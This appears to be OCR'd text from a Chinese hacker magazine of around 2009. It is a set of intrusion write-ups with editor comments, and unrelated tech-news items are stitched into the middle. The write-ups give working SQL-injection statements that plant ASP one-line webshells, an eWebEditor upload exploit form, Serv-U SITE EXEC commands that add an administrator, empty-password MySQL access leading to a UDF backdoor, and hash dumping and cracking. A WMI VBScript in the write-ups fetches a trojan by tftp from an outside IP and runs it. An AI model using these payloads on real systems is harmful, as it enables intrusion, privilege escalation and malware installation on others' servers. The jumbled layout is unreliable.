这个站我试了一下，因为作者的图片泄漏了 url 地址，3 分钟搞定，直接在 db 里边的 cmd 命令里执行 `echo ^<%25eval(request(chr(35)))%25^> d:\wwwroot\teajoon_web\htdocs\files\1.asp`，不是像作者说的没有权限写入。SA 都已经是 system 权限了，很少有人这样去设置不让 system 用户无写入权限的。至于端口转发，大家都会，我也就没有去做了。

法找起目录来，既然是 JSP 的站，那首先就拿出 LCX 大叔写的暴源码工具吧。

按要求填好以后，开始执行，如图6，依然未果！再看看能否遍历目录呢？随手一点，没想到竟出来个惊喜，如图7，狂晕。权限有，路径有，那接下来当然就是备份拿 SHELL 了。本以为又会很轻松，丢到 NBSI 里边直接 GETWEBSHELL，可却提示出错，如图8，看来只得手工了，没办法，谁让 NBSI 不认识 JSP 啊。

提交如下语句 url：

```text
create table [dbo].[shit_tmp] ([cmd] [image])--
url;declare @a sysname, @s nvarchar(4000) select @a=db_name()
{} @s=0x7900690061006F006C007500. backup log @a to disk = @s with init,no_truncate--
url;insert into [shit_tmp] [cmd] values (0x3C25657865637574652872657175657374282261222929253E)
url;declare @a sysname, @s nvarchar(4000) select @a=db_name()
{} @s=0x64003A005C003100320033002E00610073007000 backup log @a to disk=@s with init,no_truncate--
url;Drop table [shit_tmp]--
```

可到第二步的时候就出错，于是又换种方式备份，语句如下：

```text
url;alter database 数据库 set RECOVERY FULL--
url;create table cmd (a image)--
url;backup log 数据库 to disk = 'c:\cmd' with init--
url;insert into cmd (a) values ('0x3C25657865637...')
url;backup log 数据库 to disk = '物理路径\\123.asp'--
url;drop table cmd--
```

到第三步时就出错了，看来是内容太多，备份超时了，如图9，这可咋整啊？眼看快到手的站没了，这种滋味比找不到工作还难受啊！眨眼间都到吃饭时间了，没想到都搞了这么久，先吃过饭清醒清醒头脑再搞吧。

饭后，果然思路清晰了许多，看来黑站不能饿着肚子。现在咱是 SYSADMIN、SA 权限啊，有啥不能做的。虽然没了 CMDSHELL 之类的，但还有那么多的存储过程啊，sp_makewebtask 再不用都快发霉了。

简单说明下，该存储过程利用的条件是只要是 SA 的权限和知道站点 WEB 路径的话，就能往里边写马，哈哈，很爽吧。于是 `url;exec sp_makewebtask 'WEB路径\xxx.asp','select''<%25execute(request("cn"))%25>'''；`……结果如图10，然后用 laker2 的一句话木马连接后上传了个 JSP 马，成功拿下传说中的 XX 人才网，如图11。

最后再说明一点，其实 JSP 站也不是很高深，方法也不是很怪异，拿站其实跟脚本没多大关系的，关键在于数据库的区别。数据库不同，拿站方法就不同，因此只要掌握了几种常见的数据库的注射方法，就能拿下大部分的有注射漏洞的站。感谢大家耐心看完，我是 Jk7ose，祝自己和职业色狼兄都能顺利找到理想的工作。

> 编辑点评：很老的方法了，我不多说什么。

## 曲折的渗透之路

图 古典娃娃 [NGSST]

**本文你可以看一下作者的入侵思路**  
目标：xxx.com.cn，中国某某货运网

经过检测，发现这个网站有多个域名，www.xxx.com.cn、www.xxx.net.cn、www.xxx.cn，但我们的目标是主站。对于菜鸟来说，第一个想到的方法当然是注入啦，呵呵。但是这个网站大部分的页面都是静态的，虽然有些动态的 URL 地址，但都无法用，只要一有尝试注入就会把 IP 锁定，这很麻烦，一锁定 IP 就得换 IP 才能访问了，如图1。这样偶就放弃注入了，随便翻翻网站看看有没有什么可以利用的地方，结果还是无功而返。

接下来当然还是要注册一个会员，看看有没有 ASP 目录上传之类的漏洞。嘿嘿，先来以 ok.asp 为会员名注册一下，如图2，注册页面是利用 javascript 在客户端来判断会员资料是否合法的，这样就很容易绕过，只要在浏览器的“Internet 选项”——“安全”——“自定义级别”里面把“脚本”、把“JAVA 小程序脚本”和“活动脚本”都禁用，提交注册信息之后再启用这两项，如图3。

虽然 ok.asp 注册成功了，如图4，但翻遍会员后台都没什么可利用的，只有一个上传企业图片的地方，如图5，但是不存在上传这样的低级漏洞。不过我还是尝试上传一张图片看看，上传路径为：xxx/cmdt/ewebeditor/cmdtupfile/2009225163026649.jpg，发现有 ewebeditor，偷笑了一下，唉，可惜 ewebeditor 的登录页面已被删除了。

呼！别急，我们还有旁注大法没用上呢。打开旁注查询的网站，一查，这次真的发现了，查出 3 个域名，如图6，2 个是同一个网站，一个是 B2B 系统，登录不了，也没法搞。到此我想：算了，不玩这个垃圾站嘛。

第二天无聊的时候又翻出来看看，看看图片在这么多层的目录下，就试着从上传图片的目录往上跳转。当转到 cmdt 目录的时候，返回了如图7的页面，xxx/cmdt/create/index.htm，页面左下角显示这是 ASP CMDT，是 Create Modify Delete Tools，version 为 1.0。

第一次见到这个东西，我还不太清楚是干嘛用的，似乎是没什么作用的页面。照样全面翻一遍，最后发现在“信息管理列表”中有个“生成配置文件”的功能，如图8。生成的配置文件是 .asp 格式的，如图9，还有“其他需要加入的 ASP 代码”、“其他需要加入的 HTML 代码”等功能，如图10，这好像就是让人来建

## 西线无战事

webshell 似的。

立刻在“**其他需要加入的ASP代码**”里面加入 WEBSHELL 代码，因为这里限制了代码的长度，换了个小马还是不行，最后只能用一句话了，生成配置文件成功，如图11。

但是访问时出来一个“URL时服务器出错，请与系统管理员联系。”的提示，就感觉貌似不行，不过我还是用一句话客户端连接试试，结果真的不行，又郁闷了一次。

还有一个“**其他需要加入的HTML代码**”的地方，还是照样把一句话加进去试试，再次生成配置文件，效果依然，但是再一次用一句话客户端连接，却出人意料地成功了，如图12，哈哈！

接下来当然是提升权限，把 aspx、php、jsp 等类型的大马全部上传一个先，因为我们必须尝试所有的可能性嘛。结果发现服务器只支持 ASP 和 ASPX，这次提权很顺利，服务器上几乎提权用的组件都支持，我直接用 Serv-U 就提权上去了。是不是管理员以为他们网站很强了，就忽略服务器的权限加固呢？用 WEBSHELL 简单扫描一下端口，发现开了 3389，接着就不用啰嗦了哈。

**编辑点评：**

eWebEditor 如果是 2.8.0 以下版本，没有登录也可以利用 upload.asp 成功上传 webshell，《黑客手册》有讲过，我简单写一个 exp，代码如下：

```html
<form action="http://127.0.0.1/ewebedit/upload.asp?action=save&type=IMAGE&style=standard" method="post" name="myform" enctype="multipart/form-data">
  <input type="file" name="uploadfile" size="1" style="width:100%" onchange="originalfile.value=this.value">
  <input type="hidden" name="originalfile" value="">
  <input type="submit">
</form>
```


## 超BT 现金网的提权

图为爱的就是你

## 从本文来学习基础吧

一天 QQ 上一好友对我说，河南有某某联盟了，用 BAIDU 一搜，果然是河南某某联盟，如图1。

进入主页一看，是新云的程序，这个程序的漏洞还是蛮多的，一测试，果然存在漏洞，如图2、图3，下载到了配置文件。


配置文件下载下来，心想事情就变得很简单了。可是把数据库下载出来有三个管理员用户，用 cmd5.com 一个都没有破解出来，后台地址也删除了，看来管理员还是有一些安全意识的。心想旁注一下试试吧！打开 www.ip866.com 查询了一下，绑定的域名蛮多啊，如图4。

貌似现在能批主机提权都很难的，反正都已经开始了，就接着往下试试吧！打开第一个站，查看图片属性得到了 eWebEditor 在线编辑器的路径，一切变得就简单了，如图5。

然后找到管理员页面，用默认用户名和密码登录，发现管理员已经改了，下载 eWebEditor 的数据库，用 cmd5.com 查询得到密码，进入后台上传得到 webshell，如图6、图7。


## 西线无战事


```text
C:\Documents and Settings\Administrator>ftp ******
Connected to ******.
220 Serv-U FTP Server v6.4 for WinSock ready...
User (******:(none)): pengfei
331 User name okay, need password.
Password:
230 User logged in, proceed.
ftp> dir
200 PORT Command successful.
150 Opening ASCII mode data connection for /bin/ls.
226 Transfer complete.
ftp> quote site exec "ipconfig"
501 Cannot EXEC command line (error=0).
ftp> quote site exec "net user"
501 Cannot EXEC command line (error=0).
ftp> quote site exec "e:\wwwroot\leiyunhan\wwwroot\1.vbs"
501 Cannot EXEC command line (error=11).
```


查询得到服务器支持 php，不支持 aspx、cgi。ASP 和 php 权限小得可怜，C:\Documents and Settings 和 C:\Program Files 都无法访问，目录权限设置得还是相当严格的。用木马自带的扫描工具扫描得到对方开放了 21、80、3306、43958（wscript.shell 组件已经禁用了）端口，然后测试用 Serv-U 提权，没有成功，如图8。

测试了几个提权的 exp 都没有成功，然后打开 c:/windows，没有抱希望地查询了一个 my.ini，谁知道找到了，如图9。

但是没有 MYSQL 数据库库名，测试了一些敏感的信息，都不对。就在绝望的时候，好友说了一句社工他一下，点醒了我，Serv-U 的密码不会也是这个密码的吧？赶快试一下，成功了，如图10。

可爱的 230 提示出来了，但是后面的显然是没有执行成功。然后在 Serv-U 里加一个用户，权限是 C 盘，用命令行登录上还是无法执行，如图11。

```text
C:\Documents and Settings\Administrator>ftp ******
Connected to ******.
220 Serv-U FTP Server v6.4 for WinSock ready...
User (******:(none)): pengfei
331 User name okay, need password.
Password:
230 User logged in, proceed.
ftp> dir
200 PORT Command successful.
150 Opening ASCII mode data connection for /bin/ls.
226 Transfer complete.
ftp> quote site exec "ipconfig"
501 Cannot EXEC command line (error=0).
ftp> quote site exec "net user"
501 Cannot EXEC command line (error=0).
ftp> quote site exec "e:\wwwroot\leiyunhan\wwwroot\1.vbs"
501 Cannot EXEC command line (error=11).
ftp> quote site exec "e:\wwwroot\leiyunhan\wwwroot\net.exe user ASPNET pengfei /add"
200 EXEC command successful (TID=33).
ftp> quote site exec "e:\wwwroot\leiyunhan\wwwroot\net.exe localgroup administrators ASPNET /add"
200 EXEC command successful (TID=33).
```

在网上搜索了一些资料，经查询，终于知道有可能管理员把 cmd.exe、net.exe、net1.exe 这些都删除掉了。接着就是上传这些文件，因为之前我上传上去一个 VBS，命令执行成功了，但是并未加上管理员账号。现在上传后再执行，终于成功了，如图12。


现在就是用扫描工具扫描对方的 3389 连接端口，用 portscan 扫描器一会儿功夫得到了对方的连接端口，如图13、图14。

这次入侵没有什么高深的技术，再说高深的技术我也不会，呵呵。也许入侵就是这么简单，只要心细就好！欢迎大家与我一起交流！

**编辑点评：** 不说什么了，学好扎实的基础才是正道。

## mysql 账号安全大解析

从本文你可以了解 mysql 账号设置不当带来的危害

几年前做了个 MYSQL 攻防的动画教程，里面大概讲了一下 ODBC，现在好像网上也没类似的文章了，今天就再提一下吧。

我们都知道 MYSQL 有 ROOT 账号，可以设置远程密码和本地密码。很多管理员设置了本地密码后，都疏忽了设置远程连接密码，这就造成了扫描的时候很多 ROOT 账号空密码。用 SYN 的 S 扫描，可以很轻松地扫整个 IP 段，危害是相当严重的。下面就简单介绍一下，一般新安装的 MYSQL 包含了哪些不安全因素。

| host | user | password | Delete_priv |
|---|---|---|---|
| localhost | root | 332d3r6t2f5d14w6S | Y |
| % | root |  | Y |
| localhost |  |  | Y |
| % |  |  | N |

模拟图

请看下面的 5 项，是我总结出来的新安装 MYSQL 后容易导致的安全因素。

- 1. mysql 默认的授权表
- 2. 被恶意函数植入
- 3. my.ini 文件泄露口令
- 4. 服务默认被绑定在全部的网络接口上
- 5. 默认安装路径下的 mysql 目录权限

我们今天的主题涉及的就是第一条：mysql 默认的授权表。下面是数据库 USER 表，执行“select host,user,password,Delete_priv from user;”后的模拟图：

```text
mysql> select my_udfdoor('');
...
1 row in set (8.38 sec)
mysql>
```

我们可以看出：第一行的意思是本地 ROOT 权限设置，这里显示已经设置了密码，是 16 位的 MD5 加密。一般来说，安装完数据库的管理员都会设置这个密码的（危险系数极低）。

第二行的意思是任意远程主机以 root 账号连接时，不需要口令都可以连接。大家都猜到 PASSWORD 栏里是空白的，就是没设密码，此账号权限为所有的权限（危险系数较高）；

第三行的意思是从本地主机进行连接，任何账号，不需要口令，都可以连接，所有的权限因为只能是本地连接，所以危险系数低。

第四行的意思是任意远程主机，任何账号（或不用账号），不需要口令都可以连接，无任何权限（危险系数中）。

好了，以上介绍了 MYSQL 数据库账号的所有设置方式，我在网上好像见到过一篇帖子，有朋友不明白为什么像 MSSQL 或其它数据库的账号都是对应一个密码，而 MYSQL 数据库的 ROOT 账号却有四个密码？看了上面的介绍，我想大家应该清楚了。今天重点就是演示第四条没设置好所带来的危害性。

- 1. 这台主机的管理员没设置好第 2 条，所以我们通过 ROOT 用户空口令可以正常连接，如图1。
- 2. 这台主机的管理员因为没设置第 4 条，所以我们不输入账号，也可以正常连接，如图2。
- 3. 虽然这个隐含账号的权限一般都很低，但是依旧可以执行我们的自定义函数，图3中是我把一个可以创建后门的函数放在了 d:\2003.txt，但能满足我们激活函数的要求，如图4。
- 5. 激活函数后，就可以得到 SHELL 了，如图5。

明白过程的朋友一看就了解了，网上教程也很多，欢迎大家一起交流。

```text
c:\log>mysql -h 目标IP地址 -u root
Welcome to the MySQL monitor. Commands end with ; or \g.
Your mysql connection id is 1 to server version: 3.23.52-nt
Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
mysql> exit
```

图1

```text
c:\log>mysql -h 目标IP地址
Welcome to the MySQL monitor. Commands end with ; or \g.
Your mysql connection id is 2 to server version: 3.23.52-nt
Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
mysql> exit
```

图2

```text
mysql> \.< d:\2003.txt
Query OK, 0 rows affected (1.38 sec)
ERROR 1044: Access denied for user ... to database 'mysql'
ERROR 1046: No Database Selected
ERROR 1046: No Database Selected
ERROR 1046: No Database Selected
ERROR 1044: Access denied for user ... to database 'mysql'
```

图3

> 【本文图3中的 2003.txt 已收录在本期光盘】

**编辑点评：** 这个方法应当只是适用于 mysql 的低版本，至少 mysql5 以上已经是不可以了。

## 无线攻击技巧系列之一：

## 让 VMware 也能使用 PCMCIA 无线网卡

图 Christopher Yang / 初苓【ZerOne】

**从本文你可以学到如何让 VMware 支持无线网卡**

对于无线安全审计及渗透测试而言，多数无线黑客及无线安全爱好者，会在笔记本上采用双系统或者多系统启动的方式，来进入 Linux 下载入 PCMCIA 无线网卡。但是，在硬盘上采用多操作系统共存的方案所带来的物理安全隐患，及使用的不便将随着时间的推移日渐明显。比如我以前的笔记本就是采用 BackTrack2、Ubuntu 及 Windows 的三系统共存环境，在进行无线渗透测试时带来了诸多便利。

当然，对于在平时较为依赖 Windows 环境工作的用户来说，使用 VMware 来装载 BackTrack2/3、WiFiWay、Whax、PHLAK 等安全专用 Live Linux 系统也不失为一种较为简洁的方法，这样就不会出现多操作系统共存所带来的分区划分、文件管理等繁琐的问题。

但是，VMware 虽然支持装载 USB 无线网卡，但对于芯片种类更广泛的 PCMCIA 无线网卡，在默认情况下是不支持装载的。于是，如何在 VMware 中载入 PCMCIA 无线网卡便成为很多人面临的实际难题之一。

其实是有一些简便方法的，鉴于最近常有朋友问起这方面的内容，下面分别就 Windows 及 Linux 下笔记本用 PCMCIA 无线网卡在 VMware 里载入的方法做出一个简单的总结。

PCMCIA 接口的基本概念：PCMCIA 接口为笔记本专有的外置接口，主要用于插入无线网卡、无线上网卡、外置蓝牙卡、保密卡等设备。PCMCIA 无线网卡即为采用 PCMCIA 接口的无线网卡，如图1、图2。目前市面上主流的无线网卡接口主要有 PCMCIA、USB 和 PCI，其中 USB 作为很方便的载入方式被广泛使用，但其缺点是基于 USB 的无线网卡芯片种类较为单一，而 PCI 作为台式机采用的方式，明显不适合移动的无线攻击及安全评估。


### 二、基本使用篇

- 1. Windows 2000/XP/2003/Vista 下

这里我们使用 Aircrack-ng 攻击套装里名为 airserv-ng 的工具来实现，这款工具的设计目的就是将我们的无线网卡作为一个对外的服务来运行，这样其它无线工具就可以通过连接此服务开放的端口，达到连接该无线网卡设备，使用其进行无线安全渗透测试。我这里就以 Windows 版本的 Aircrack-ng 套装为例。

```text
C:\aircrack Full>airserv-ng
Usage: airserv-ng <opts>
-p <port> TCP port to listen on
-d <dev> wifi device to serve
-c <chan> chan to start on
-v <level> debug level
```

图3

步骤1：打开 CMD，通过 cd 命令进入到 aircrack-ng for Windows 版本所在目录，输入 **airserv-ng**，可以看到如图3所示的内容。

- `-p`：指定监听的端口，即提供连接服务的端口，默认为 666，我们可以根据情况自行设定一个常用的；不过记得在防火墙里添加对应的开放规则；
- `-d`：载入无线网卡设备，需要驱动支持，见后面相关内容；
- `-c`：指定启动工作频道，一般设置为初始 AP 的工作频道，默认为 1；
- `-v`：调试级别设定；

那么，作为 Windows 下的破解，第一步就是使用 airserv-ng 来载入我们当前使用的无线网卡，为后续破解做准备，命令如下（注意：在命令中出现的引号一律使用英文下的引号输入）：

```text
airserv-ng -d "commview.dll|debug"
或者
airserv-ng -d "commview.dll|{my_adapter_id}"
```

`-d` 参数为设定装载网卡，在 Windows 下需要使用 `commview.dll|debug` 来装载 PCMCIA 无线网卡。注意：此无线网卡一定要为 CommView for WiFi 或者 OmniPeek 所支持的。

```text
C:\aircrack Full>airserv-ng -d "commview.dll|debug"
Opening card commview.dll|debug
...
Setting chan 1
Opening sock port 666
Serving commview.dll|debug chan 1 on port 666
Connect from 127.0.0.1
```

图4

```text
C:\MySql\data>
ipconfig

Windows IP Configuration

Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix . : koonet
IP Address. . . . . . . . . . . . : ***.***.***.68
Subnet Mask . . . . . . . . . . . : 255.255.255.0
IP Address. . . . . . . . . . . . : fe80::21a:4dff:fe1b:4e79%4
Default Gateway . . . . . . . . . : ***.***.***.254
```

图5**无线网卡**，具体信息可以查看产品对应的无线网卡支持列表。

上述命令输入完成后，airserv-ng 会自动搜寻现有无线网卡，并有提示，我们选择正确的无线网卡直接输入 y，此时 airserv-ng 就在正常载入驱动后，同时开始监听本地的 666 端口，如图4。换句话说，airserv-ng 便开始提供该无线网卡的网络服务，其它计算机上的用户也可以连接到这个端口来使用这块网卡。

步骤2：下面我们就可以在虚拟机里尝试连接该 PCMCIA 无线网卡了，使用命令如下：`airodump-ng IP:port`，此处 IP 即为前面使用 airserv-ng 的计算机 IP 地址。

我们进入到虚拟系统内部，打开 CMD，直接输入命令如下：

`airodump-ng 192.168.110.1:666`，此处的 IP 是对于 VMware 而言，采用 HostOnly（仅主机）模式的物理主机 IP 地址。

提醒一下，对于没有连接局域网的笔记本而言，已经无法使用 Bridged（桥接）模式，故此处将名为 VMnet1 的虚拟网卡激活，然后在虚拟机上将网卡启动为 HostOnly 模式，并在虚拟系统中设定 IP 地址为笔记本物理机上 VMnet1 网卡同一网段的 IP。

同时，作为对比，我们也打开本地物理主机上的 CMD，输入命令如下：`airodump-ng 127.0.0.1:666`，执行后如图5。可以看到在左侧虚拟机里运行的 Windows XP 在使用 airodump-ng 导入远程无线网卡后，显示的扫描界面与本机使用 airodump-ng 完全一致。

这样，我们就达到了在虚拟机中进行无线破解时也能够使用 PCMCIA 无线网卡的目的。

## 2、Linux下

类似地，Linux 下使用的方法与 Windows 下完全一致，所以这里就不再重复演示。我们换个角度，对于一些需要使用多个 BackTrack3 Linux 系统进行不同内容操作或者攻击审计，但却只有一块无线网卡的用户来说，也可以通过使用 airserv-ng 来建立网络网卡服务，达到多系统公用同一块无线网卡的目的。

为了适合大多数环境的需要，下面依然以 VMware 虚拟环境为例，这样既适用于纯 Linux 环境，也同样适用 Windows、Ubuntu、BSD 环境。当然，也适用于所有操作系统下使用虚拟机搭建的环境。

步骤1：同样地，先使用 airserv-ng 来调用无线网卡，开启对外服务，使用命令如下：`airserv-ng -d wlan0`。其中，wlan0 为 Linux 下无线网卡的名称，我们可以使用 ifconfig 来查看具体的网卡名称，显示效果如图6。

步骤2：在另外一台虚拟机中的 Linux 环境下，使用 airodump-ng 来连接前面的 airserv-ng 提供的无线网卡网络服务，使用命令如下：`airodump-ng IP:port`，此处 IP 即为之前运行 airserv-ng 的 IP 地址，端口为默认的 666 端口。

连接后的显示效果如图7，总体效果如图8，可以看到在左侧虚拟机里运行的 BackTrack3 Linux 在使用 airodump-ng 导入远程无线网卡后，显示的扫描结果与右侧的虚拟系统 BackTrack3 Linux 使用的 airodump-ng 完全一致。

### 三、深入使用篇

对于 airserv-ng 而言，其功能远不止用于 Windows 本地破解这么单一。在将本机无线网卡设置为监听后，其它内网计算机都可以连接到该端口，并使用此无线网卡进行攻击。换句话说，攻击者甚至可以不在 AP 的有效范围内，比如在另外一个城市，通过远程入侵来安装 airserv-ng，并通过远程控制来进行远程无线入侵，这给跟踪带来了很大难度。对于一些对安全要求比较苛刻的环境，这一点可要尤其注意。下面我就带大家来简单看看攻击的原理。

#### 1、远程无人值守攻击

作为熟练掌握无线攻击技术的黑客们，还可以通过搭建远程无线网卡服务器，来进行远距离无人值守攻击及入侵。这和我们以前提及的远程 telnet 登录系统，再进行 shell 下的攻击是一样的，其原理如图9。

#### 2、跨网段使用

可以在中继网关上使用 airserv-ng 进行网络网卡服务转发，这样即可支持不同的网段内主机也可进行无线网卡的调用。如图10，有兴趣的朋友可以尝试一下。

这些错误还有待于 airserv-ng 的完善，有最新消息我会再提供给大家。最后：我是 ZerOne 安全团队无线安全组组长 Christopher Yang，希望此文能够给正在学习无线安全的朋友带去一些帮助，今后我将为大家带来更多的无线攻击内容，希望能让大家了解当前无线安全领域发展形势……

错误提示：

- 1. 若端口已被占用，会出现如图11所示的 “Address already in use”（地址已被使用）提示，一般来说，此错误均为已经开启 airserv-ng 进行网络网卡服务并采用默认 666 端口所致，修改端口或者停止冲突的 airserv-ng 即可解决。
- 2. 不同系统下的 airodump-ng 不能共通。使用 Windows 系统下的 airodump-ng 连接 Linux 系统下的 airserv-ng 网络网卡服务，如图12，可以看到出现了错误。使用 Linux 系统下的 airodump-ng 连接 Windows 系统下的 airserv-ng 网络网卡服务，如图13，可以看到出现了同样的错误。

> 编辑点评：无线攻击由于我没有接触过，所以就不多说了，有兴趣的读者可以尝试一下。

## 域内网入侵之二：系统用户的密码收集以及利用

大约在2009年第一期我写了一篇《域内网中的信息收集之——内网结构的探测》，结果因为很多事情的耽搁，拖到今天才有了第二篇。其实域内网的入侵和以前的 rpc 漏洞暴露之前，那段时间里系统入侵的一些方法是一样的。

在 rpc 蠕虫爆发之前，网络上的 139 和 445 端口基本都是开放的，杀软和防火墙也没有现在这样强，以及系统补丁也没有打到很完善，那是一个美好的年代。现在入侵基本都是靠脚本了，也导致很多新诞生的小黑不了解系统的人侵手法。现在我们就回归到美好的年代，来到内网进行入侵，不过由于条件的限制，在内网入侵中和以前系统入侵相比，可能更多运用了端口转发以及命令行下的操作。

在有了一个内网的 cmdshell 之后，如果是系统权限，第一步的信息收集肯定是抓取 hash。命令行下抓取管理员的 hash 有三个小工具，分别是 pwdump7，如图1；gethashes，如图2；fgdump，如图3，这些工具在以前都介绍过，就不再重复了。

不过值得一提的是，以前 pwdump4 版本在 3389 下是不能直接使用的，要用 `psexec -u name -p pass cmd.exe` 得到 shell 后再用，如图4。现在的 pwdump7 就不用这么麻烦了。抓取 hash 之后是破解，我推荐用彩虹表（Rainbow）来破解。

## ipc$ 入侵

这样较快速并节约时间。彩虹表的字典在 **http://rainbowtables.dll.cx/** 有 HTTP 下载，下载完之后将所有的 `*.rt` 放在同一目录下，执行命令 `rcrack.exe c:\tab\*.rt -f hash.txt` 来进行破解。如图5，是两个空密码的破解。

有了管理员密码之后，我们可以尝试入侵别的机器了。因为域结构很大，机器很多，网管每台机器都去装系统会累死的，所以网管一般会偷懒直接使用克隆系统来安装，这样一来，很可能系统用户的密码都是一样的。如果有了用户名和密码，直接来入侵别的机器的话不外乎两个方法，一个是 ipc$，一个是 wmi。

ipc$ 入侵的基本方法也是两个，一个手工，一个工具。工具的话我习惯用 psexec。先来看手工，我们以 209.85.122.121 的一个具有 Administrator 权限的用户为例，其用户名为 `dell-server`，密码为空，第一步先来建立 ipc$，如图6。

win32 远程登录的命令行语法：`net use <\\Ip_Address\IPC$> ["password"] /user:[username]`

退出登录的话语法：`net use <\\IP Address\IPC$> /delete`

登录成功之后先复制一个木马，在这里我改名为 `Srv.exe`，如图7。

> 图中 admin$，是 NT 下面的一个默认共享，指向 NT 所在的目录；

- `c$`：C 驱动器
- `d$`：D 驱动器
- 等等……以此类推

下一步就是如何启动这个程序的问题。W32 上面有 Schedule（定时）服务，我们利用它来启动这个程序。首先看一下对方此时的时间，以便决定何时启动，我们可以从图7中顺利得到主机的时间。注意：我们在用的时候以主机本地时间为准。

开始用 `at` 命令启动程序，但是出师不利，对方没有启动 Schedule 服务，`at` 命令没法运行。由于此时我们已经是 Administrator 权限，所以可以利用微软 NT Rtk（可以在其站点下载）中的 `NetSvc.exe` 来远程启动 Schedule 服务，如图8。大约 3－4 分钟后，Schedule 服务启动完成，我们就可以再次使用 AT 命令启动程序了，如图9。

写到这儿也许有人要问，不是 XP 系统中无法用 ipc$ 吗？我这里可以负责地告诉你，在域内网中由于共享的需要，XP 加入域后已经可以用 ipc$ 了。

如果你手工觉得麻烦，那么我们再来看工具 psexec.exe 的用法。psexec 是 sysinternals.com 出品的 pstool 工具中的一个，最新版本是 pstool v2.44，不过我们不用这个版本，因为用这个版本的话会弹出一个是否允许使用的对话框，这可不方便。我用的是 psexec 1.21，足够了。

命令如图10，这样我们本机的 `1.cmd` 就传到远程机器上执行了。你可以把图10中的 `c:\1.cmd` 换成你木马的位置，这样上传、执行，一步就可以完工了。新的 psexec 版本可以多机执行，只是命令需要改成“psexec \\ip1 ...”

前段时间的收购风暴刚结束不久，IBM 和 Sun 也不甘寂寞了，我都没想到有一天 IBM 居然会去收购 Sun，虽然目前是告吹了，但也算是搞得人心惶惶了吧。可惜啊，差一点 IBM 就能独占服务器市场了。不过有竞争，有压力，也才会有动力，不是么？

- 1. **清华大学签约永中 Office 2009 推行软件正版化**

清华大学与永中软件签署合作协议，全面推行校园软件正版化。清华将以校园特别授权的方式使用永中集成 Office 2009。根据双方协议，清华师生可在实验室、公共计算机房、多媒体阅览室、办公室、寝室等场所的公共及个人电脑上登录校内网免费下载并安装。

据永中有关人士介绍，集成 Office 2009 可以满足不同场景的办公需求，与微软全面兼容且几乎涵盖微软的所有功能。此外，集成 Office 2009 独具特色的创新功能，同时还支持 Windows 和 Linux 平台，方便文件交换。

3月初，清华大学曾因采购微软 Windows 及 Office 推行正版化而遭到批评，我国著名计算机专家、中国工程院院士倪光南撰写文章，批评清华只采购微软产品实际上是在排斥国产软件，不利于中国的自主创新。

> **风飘点评：** 3月初，清华大学曾因采购微软 Windows 及 Office 推行正版化而引起了不小的风波，受到了各界的强烈批评，看来口水多了还是有一定作用的，微软早就在各大高校忙他的校园正版化，其实目的也就是为了垄断市场，限制国产软件的发展，好在现在群众的眼睛都是雪亮雪亮的了。

- 2. **运行 Linux 的美女机器人**

日本产业技术综合研究所（AIST）上周公开了一个基于 Linux 的仿真机器人，HRP-4C 拥有女性的外表和表情，步行和行走都类似人类，能通过语音识别技术与人交流。机器人身高158厘米，体重43公斤（包括电池）——取日本 19 岁到 29 岁年轻女性的平均值。HRP-4C 的心脏是新版 ART-Linux 发行版，Linux 2.6xx 内核，售价约 20 万美元。

> **风飘点评：** YouTube 上有她的视频，大家可以用她的名字搜来看看，还真是有模有样的，呵呵。最近做机器人似乎越来越流行，也许等我们成家生孩子，就能用机器人保姆了呢。

- 3. **传惠普部分上网本将采用谷歌 Android 操作系统**

据国外媒体报道，消息人士透露，全球第一大 PC 制造商惠普准备在部分上网本中采用谷歌开发的 Android 系统，放弃微软的 Windows 操作系统。惠普的一些测试人员目前已开始在一款上网本中测试使用谷歌 Android 系统，不过惠普目前仍未决定是否将向市场推出采用 Android 系统的上网本。

Android 系统原本被用于手机，一旦其可以安装在笔记本电脑中，将扩大谷歌与微软在 PC 软件市场的竞争领域，目前有超过 90% 的 PC 安装微软的 Windows 操作系统。虽然整体 PC 市场下滑，但提供基本邮件和网络功能且价格低廉的上网本的销量却增长迅猛，市场调研公司 IDC 预计，今年全球上网本销量将从去年的 1140 万台猛增至 2200 万台，与此同时，整体 PC 市场的增长率却从去年的 12% 下滑至 3.8%。

`ip2... -u -p -c c:\numa.exe`，大家自己做测试吧。

这里我来谈两个非常重要的经验，切记！有的内网明明用户名和密码是正确的，但是 ipc$ 连不上。我们换一种方式就可以连上了，这种方式是什么？命令格式是这样的：`net use \\ip\ipc$ /pass /u:ip\user`。

还有就是，如果两台机器的用户名和密码都一样的话，就可以先去建立 ipc$ 连接试一试，直接建立即可。另外，说明一下，以上的 ipc$ 操作步骤都是在用户权限下进行的。

## 二、wmi 入侵

有的域内网限制比较严格，无法 ipc$，关闭了 139 和 445 端口，但是忽略了 135，这样一来我们只好用 wmi 入侵了。我写了一个简单的 vbs 脚本，没有写参数，大家用的时候需要改动一下，wmi.vbs 代码如下：

```vbscript
set WW=createobject("wbemscripting.swbemlocator")
set cc=WW.connectserver("远程的IP","root/cimv2","用户名","密码")
set ss=cc.get("Win32_ProcessStartup")
Set OC=ss.SpawnInstance_
OC.ShowWindow=12
Set pp=cc.get("Win32_Process")
wscript.echo pp.create("tftp ... 122.5.26.159 get demo.exe", null, OC, intProcessID)
wscript.sleep 30000
wscript.echo pp.create("demo.exe", null, OC, intProcessID)
wscript.echo intProcessID
```

说明：122.5.26.159 是你的 tftp 服务器地址，demo.exe 是你的木马。

我们本机先架好一个 tftpd 服务端；如图11，将代码改好之后执行 `cscript wmi.vbs` 就可以了，这样你的木马就会传到对方机器上并执行，如图12。

本期的内网入侵之旅就先到这儿吧，下期我们继续。

**风飘点评：** 之前八卦传得最厉害的是华硕，现在惠普突然杀出来了，看来看好 Android 的人还是不少。科技咨询服务公司普遍预计，Android 的上网本将在 2010 年上市，但肯定也会遇到 Linux 一样的问题，至少在近 1、2 年内 Linux 在上网本领域还不会给 Windows 造成太多麻烦。不过可以说 Android 的前景还是不错的，据说 Archos 太极会在今年第三季度推出其以 Android 为平台的 MID，我们拭目以待吧。

- 4. **IE8.1 将支持 Firefox 插件、Gecko 和 Webkit 引擎**

